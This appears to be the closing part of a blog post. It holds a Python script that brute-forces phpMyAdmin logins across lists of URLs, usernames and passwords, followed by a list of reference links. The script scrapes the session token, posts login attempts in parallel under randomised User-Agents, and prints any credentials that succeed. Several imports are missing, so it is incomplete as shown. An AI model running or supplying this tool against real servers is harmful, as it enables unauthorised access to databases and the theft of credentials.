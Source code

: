 ```
from fake_useragent import UserAgent
import re
import timeit


class multi_phpmyadmin_verification:
    def __init__(self):
        args = self.argparse(sys.argv[1:])
        if not args.p:
            self.passwd_l = open("password.txt").read().splitlines()
        elif not os.path.exists(args.p) or not os.path.isfile(args.p):
            print("path does not exist,quit")
            exit(0)
        else:
            self.passwd_l = args.p
        os.chdir(os.path.dirname(os.path.abspath(__file__)))
        self.urls_l = open("url.txt").read().splitlines()
        self.username_l = open("username.txt").read().splitlines()
        self.multi_thread()

    def argparse(self, argv):
        # Parsing parameters
        parser = argparse.ArgumentParser()  # Create a parse object
        parser.add_argument(
            "-p", type=str, metavar="dic_path", help="Dictionary path")
        return parser.parse_args(argv)

    def multi_thread(self):
        ua = UserAgent()  # Used to generate User-Agent
        self.headers = {"User-Agent": ua.random}  # Get a random User-Agent
        pool = Pool()
        for url in self.urls_l:
            for username in self.username_l:
                for passwd in self.passwd_l:
                    pool.apply_async(self.verify, args=(
                        url, username, passwd,))
        pool.close()
        pool.join()

    def verify(self, url, username, passwd):
        time.sleep(0.01)
        print("\r 当前url:{}，当前用户名:{}，当前密码:{}".format(
            url, username, passwd), end="")
        # Use the \ r parameter to refresh the current line output
        session = requests.session()
        r1 = session.get(url)
        if r1.status_code != 200:
            return
        session_id = re.findall(r'phpMyAdmin=(.*?);', r1.headers['Set-Cookie'])
        token = list(re.compile(
            r'name=\"token\" value=\"(.*?)\"').findall(r1.text))[0]
        payload = {"set_session": session_id, "pma_username": username,
                   "pma_password": passwd, "server": "1", "target": "index.php", "token": token}
        r2 = session.post(url, data=payload,
                          allow_redirects=False, headers=self.headers)
        if r2.status_code == 302:
            print("\n Succeeded!!!url:{},username:{},password:{}".format(
                url, username, passwd))


if __name__ == "__main__":
    start_time = timeit.default_timer()
    multi_phpmyadmin_verification()
```

[1]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_174438.png
[2]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_174718.png
[3]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_180452.png
[4]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_180719.png
[5]: https://www.uedbox.com/post/57884/
[6]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_182458.png
[7]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_183038.png
[8]: https://cloud.tencent.com/developer/article/1471274
[9]: https://docs.python.org/zh-cn/3.8/library/argparse.html
[10]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_182703.png
[11]: https://www.liaoxuefeng.com/wiki/1016959663602400/1017629247922688
[12]: http://blog.atomicer.cn/2016/09/30/Python%E4%B8%AD%E5%A4%9A%E7%BA%BF%E7%A8%8B%E5%92%8C%E5%A4%9A%E8%BF%9B%E7%A8%8B%E7%9A%84%E5%AF%B9%E6%AF%94/
[13]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_184546.png
[14]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_184451.png
[15]: https://github.com/Xyntax/POC-T
[16]: https://img.soapffz.com/archives_img/2019/12/29/archives_20200212_172155.png